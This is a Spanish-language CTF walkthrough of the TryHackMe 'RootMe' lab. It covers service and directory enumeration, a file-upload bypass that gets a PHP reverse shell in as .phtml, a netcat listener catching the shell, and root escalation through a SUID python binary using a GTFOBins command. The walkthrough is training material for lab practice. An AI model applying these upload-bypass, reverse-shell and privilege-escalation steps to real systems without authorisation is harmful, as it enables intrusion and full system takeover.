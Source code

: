 # Resolución de la Máquina: RootMe

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 14/06/2025
- **Sistema Operativo:** Linux
- **Categoría:** Escalada de privilegios


## Descripción

"Root Me" es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es especialmente útil para:

> Practicar enumeración web y de servicios básicos

> Comprender cómo aprovechar inyecciones simples o ejecución remota de comandos

> Aplicar técnicas básicas de post-explotación

> Identificar binarios con permisos indebidos en sistemas Linux


## Enumeración

### Escaneo con Nmap

```bash
sudo nmap -sV -p- -T5 -sS -Pn 10.10.71.90

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-14 19:09 CEST
Warning: 10.10.71.90 giving up on port because retransmission cap hit (2).
Stats: 0:00:33 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.46% done; ETC: 19:10 (0:00:30 remaining)
Nmap scan report for 10.10.71.90
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneo con Gobuster

```bash
gobuster dir -u http://10.10.14.154 -w /usr/share/wordlists/wfuzz/general/common.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.14.154
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/wfuzz/general/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.14.154/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.14.154/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.14.154/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.14.154/uploads/]
Progress: 3804 / 3808 (99.89%)
===============================================================
Finished
===============================================================
```
## Explotación

Accederemos al directorio /panel/, allí veremos que podemos subir archivos, por lo que trataremos de cargar un reverse shell en PHP que generaremos a través de https://www.revshells.com/
Nos encontraremos con que no podemos subir archivos con extensión PHP, por lo tanto le definiremos la extensión de PHTML.

Una vez cargado lo ejecutaremos accediendo al directorio /uploads/, habiendonos puesto en escucha previamente por netcat.

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.1.219] from (UNKNOWN) [10.10.14.154] 51008
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:56:50 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (914): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

Para favorecer al tratamiento de la bash lanzaremos los siguientes comandos.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`	Nos genera una shell interactiva
`export TERM=xterm`	Informa a los programas del tipo de terminal

Una vez establecida la conexión mediante la reverse shell ejecutaremos el siguiente comando para buscar la flag que nos solicitan

```bash
www-data@rootme:/$ find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
www-data@rootme:/$
```
## Escalada de privilegios

Para ello buscaremos aquellos binarios que tengan el SUID activado, estos archivos se ejecutan con los permisos del propietario (normalmente root), sin importar quién los ejecute.

```bash
www-data@rootme:/$ find -perm -4000 2>/dev/null
find -perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/traceroute6.iputils
./usr/bin/newuidmap
./usr/bin/newgidmap
./usr/bin/chsh
./usr/bin/python
./usr/bin/at
./usr/bin/chfn
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/pkexec

```
Si buscamos en GTFOBins veremos que el binario de python es vulnerable a SUID

```bash
install -m =xs $(which python) .
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Fianlmente si accedemos a la carpeta de root veremos el flag de root.txt

